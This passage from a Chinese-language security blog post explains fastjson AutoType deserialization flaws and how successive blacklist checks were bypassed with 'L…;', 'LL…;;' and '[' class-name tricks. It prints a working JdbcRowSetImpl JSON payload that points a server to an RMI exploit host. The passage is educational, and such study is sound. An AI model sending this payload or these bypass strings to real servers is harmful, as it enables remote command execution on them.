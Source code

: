 

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```



**这就是所谓的远程命令执行漏洞，即利用漏洞入侵到目标服务器，通过服务器执行命令。**



在早期的fastjson版本中（v1.2.25 之前），因为AutoType是默认开启的，并且也没有什么限制，可以说是裸着的。



从v1.2.25开始，fastjson默认关闭了autotype支持，并且加入了checkAutotype，加入了黑名单+白名单来防御autotype开启的情况。



但是，也是从这个时候开始，黑客和fastjson作者之间的博弈就开始了。



因为fastjson默认关闭了autotype支持，并且做了黑白名单的校验，所以攻击方向就转变成了"如何绕过checkAutotype"。



下面就来细数一下各个版本的fastjson中存在的漏洞以及攻击原理，**由于篇幅限制，这里并不会讲解的特别细节，如果大家感兴趣我后面可以单独写一篇文章讲讲细节**。下面的内容主要是提供一些思路，目的是说明写代码的时候注意安全性的重要性。



#### 绕过checkAutotype，黑客与fastjson的博弈


在fastjson v1.2.41 之前，在checkAutotype的代码中，会先进行黑白名单的过滤，如果要反序列化的类不在黑白名单中，那么才会对目标类进行反序列化。



但是在加载的过程中，fastjson有一段特殊的处理，那就是在具体加载类的时候会去掉className前后的`L`和`;`，形如`Lcom.lang.Thread;`。



![](http://www.hollischuang.com/wp-content/uploads/2020/07/15938462506312.jpg)￼



而黑白名单又是通过startWith检测的，那么黑客只要在自己想要使用的攻击类库前后加上`L`和`;`就可以绕过黑白名单的检查了，也不耽误被fastjson正常加载。



如`Lcom.sun.rowset.JdbcRowSetImpl;`，会先通过白名单校验，然后fastjson在加载类的时候会去掉前后的`L`和`;变成了`com.sun.rowset.JdbcRowSetImpl`。



为了避免被攻击，在之后的 v1.2.42版本中，在进行黑白名单检测的时候，fastjson先判断目标类的类名的前后是不是`L`和`;`，如果是的话，就截取掉前后的`L`和`;`再进行黑白名单的校验。



看似解决了问题，但是黑客发现了这个规则之后，就在攻击时在目标类前后双写`LL`和`;;`，这样再被截取之后还是可以绕过检测。如`LLcom.sun.rowset.JdbcRowSetImpl;;`



魔高一尺，道高一丈。在 v1.2.43中，fastjson这次在黑白名单判断之前，增加了一个是否以`LL`未开头的判断，如果目标类以`LL`开头，那么就直接抛异常，于是就又短暂的修复了这个漏洞。



黑客在`L`和`;`这里走不通了，于是想办法从其他地方下手，因为fastjson在加载类的时候，不只对`L`和`;`这样的类进行特殊处理，还对`[`也被特殊处理了。

